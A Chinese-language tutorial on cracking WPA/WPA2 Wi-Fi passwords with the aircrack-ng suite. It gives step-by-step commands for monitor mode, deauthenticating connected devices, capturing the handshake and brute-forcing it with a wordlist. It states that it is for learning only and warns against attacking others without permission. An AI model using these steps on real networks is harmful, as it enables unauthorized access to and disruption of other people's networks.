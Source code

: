 *---小凡君m(2024.6.1)*
视频:[[WIFI密码破解.mp4]]

- 近源无线渗透中，进入对方的局域网是非常重要的一步，因此破解WIFI密码是近源无线渗透中的非常关键的一步．
- 该教程仅用于学习交流，**未经许可，请勿攻击他人网络．**
---

一般情况下，无线网络的加密方式有:
- **wep: **使用RC4加密，可用相关算法直接解密出密码，目前少量保守的家庭和单位使用**(高危)**
- **wap/wap2: **现阶段很难直接解密，但可以通过抓取握手包的方式暴力破解，也可以使用邪恶的双胞胎来骗取密码

本文介绍通过抓握手包的方式破解wap/wap2加密的无线网络．

---
## 零.渗透前准备
1. 我们需要Kali上能用且支持抓包的无线网卡，这里我用的是RT3070,Kali免驱动，使用方便．
2. 其次，我们需要准备一份或几份WIFI密码的字典用于暴力破解．
## 一.监听附近的无线网络
1. 先用`su`切换为root用户
2. 然后用`airmon-ng check kill`来清除干扰进程
3. 使用`airmon-ng`或`iwconfig`来检查网卡及状态，我们的无线网卡一般被识别成wlan0
4. 使用`airmon-ng start <网卡名>`开启监听模式，开启监听模式的网卡名称后一般会多一个"mon"，比如你的网卡是wlan0，那么这个时候再用`iwconfig`检查网卡及状态就应该变成"wlan0mon"
5. 然后使用`airodump-ng <监听网卡名>`来监听附近的无线网络，这里你应该可以看到附近的无线网络信息

> [!NOTE] 补充
> 这里补充几个用`airodump-ng <监听网卡名>`监听到的信息含义
> **BSSID:　**路由器(也就是无线网络发起端)的MAC地址
> **STATION: **某一无线网络中的设备的MAC地址(该信息前面的BSSID就表示该无线网络的路由器MAC地址，方便锁定某无线网络中的设备)
> **PWR: **该无线网络的强度，数值越大代表越强
> **CH: **该无线网络的信道
> **ENC: **该无线网络的加密方式
> **ESSID: **该无线网络的名称
## 二．监听目标WIFI
1. 在上一步我们监听到目标WIFI并获得相关信息后，我们可以用`<Ctrl>+C`结束监听进程
2. 然后用`airodump-ng -c <目标WIFI信道> -w <记录信息的路径及文件名> --bssid <目标WIFI的BSSID>　<监听网卡名>`来单独监听目标无线网络．然后我们会看到目标无线网络的信息以及已连接该无线网络的设备的信息．保持这一步的监听不动．
## 三．抓取握手包

> [!NOTE]　说明
> 在监听目标WIFI时，我们可以根据目标无线网络的信息以及连接该无线网络的设备的信息来使设备断开并重新连接该无线网络，并抓取握手包来破解密码

使用`aireplay-ng -0 <目标WIFI信道>　-a <目标WIFI的BSSID> -c <连接目标WIFI的设备的STATION>`来使相应设备断开并重连无线网络，这个时候如果目标无线网络监听页面出现**handshake**则表示抓包成功，如果没有就多试几次，让设备不断断开并重新连接，直到抓包成功．
## 四．暴力破解密码
1. 在抓包成功后，我们在<记录信息的路径及文件名>那里应该可以看到一个或多个cap文件 *(文件名后面可能会有-01之类的序号，如果有多个，就取最后抓到的那一个)*，然后使用`aircrack-ng -w <字典路径及名称> -b <目标WIFI的BSSID>　<抓取到的数据包路径及名称>`来用指定字典暴力破解密码．
2. 如果破解成功，则会显示**KEY FOUND!**并在后面接上密码明文
## 五．连接目标无线网络

在以上工作成功完成后，我们可关闭所有进程，并使用`airmon-ng stop <监听网卡名>`来关闭网卡的监听模式，然后我就可以用破解出来的密码正常连接目标无线网络了．
